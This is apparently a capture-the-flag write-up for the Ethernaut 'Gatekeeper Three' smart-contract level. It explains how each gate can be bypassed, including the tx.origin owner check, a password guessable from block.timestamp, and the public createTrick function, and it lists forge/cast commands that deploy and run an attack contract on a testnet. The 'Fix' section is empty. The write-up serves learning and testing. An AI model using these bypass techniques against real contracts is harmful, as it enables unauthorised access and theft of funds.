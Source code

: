 # Gatekeeper Three

Cope with gates and become an entrant.

## Vulnerability

1. `gateOne` modifier:
   
```bash
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}
```
The requirement that `msg.sender` must be the owner and `tx.origin` must not be the owner can be bypassed by a contract that is owned by the intended owner. An attacker could deploy a contract, make the owner of `GatekeeperThree` deploy another contract (or use an existing one they own), and then interact with `GatekeeperThree` through this contract. This setup would satisfy both conditions.

2. `gateTwo` modifier:

```bash
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

The `allowEntrance` boolean is set to `true` by calling `getAllowance` with the correct password. However, since the `SimpleTrick` contract's password is initially set to `block.timestamp` at the time of its deployment and can be reset to `block.timestamp` upon a failed password check, an attacker observing the block of deployment could guess or brute-force the password by trying values around the `block.timestamp` of the contract's creation.

3. `gateThree` modifier:

```bash
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
        _;
    }
}
```

- The contract's balance is indeed greater than `0.001` Ether.
- `payable(owner).send(0.001 ether) == false` being true indicates that the payment attempt failed.

1. Use of `tx.origin` for auth:

The use of `tx.origin` for auth in `gateOne` is generally discouraged because it can lead to vulnerabilities where an attacker tricks a user into executing a transaction that interacts with the vulnerable contract.

5. Public visibility of `createTrick`:

The `createTrick` function is public and allows any user to overwrite the `trick` contract instance stored in the `GatekeeperThree` contract. This could lead to unauthorized control over the mechanism that sets `allowEntrance` to true.

6. Re-entrancy in `gateThree`:

Although not a direct re-entrancy vulnerability due to the lack of state changes after the external call, relying on the external call's success or failure `payable(owner).send(0.001 ether)` to control the flow can be risky and lead to unexpected behavior, especially if the owner's address is a contract with a fallback function.

7. Lack of event logging:

The contract does not emit events for significant state changes (e.g., changing `allowEntrance`, updating `entrant`, +), making it harder to track its activity and debug issues.

To exploit this contract, an attacker could focus on manipulating the `SimpleTrick` contract to bypass the gates, especially by guessing or brute-forcing the `password` based on the deployment `block.timestamp`. Additionally, the attacker could exploit the public `createTrick` function to set up their version of the `SimpleTrick` contract, potentially bypassing the intended logic for setting `allowEntrance`.

## Attack

1. Deploy `GatekeeperThreeAttack` and the attack will be executed.

```bash
forge script script/DeployGatekeeperThreeAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# make deploy ARGS="--network sepolia"
# https://sepolia.etherscan.io/address/0xbC4349e6BfeFd22982327DD1C64FC1c5BF4Ba874
```

2. Found `GatekeeperThree`.

```bash
cast send $GATEKEEPER_THREE_CONTRACT_ADDRESS --value 0.0011ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

3. Attack.

```bash
cast send $CONTRACT_ADDRESS "solveGateOne()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
cast send $CONTRACT_ADDRESS "solveGateTwo()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
cast send $CONTRACT_ADDRESS "solveGateThree()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
cast send $CONTRACT_ADDRESS "attack()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```


## Fix


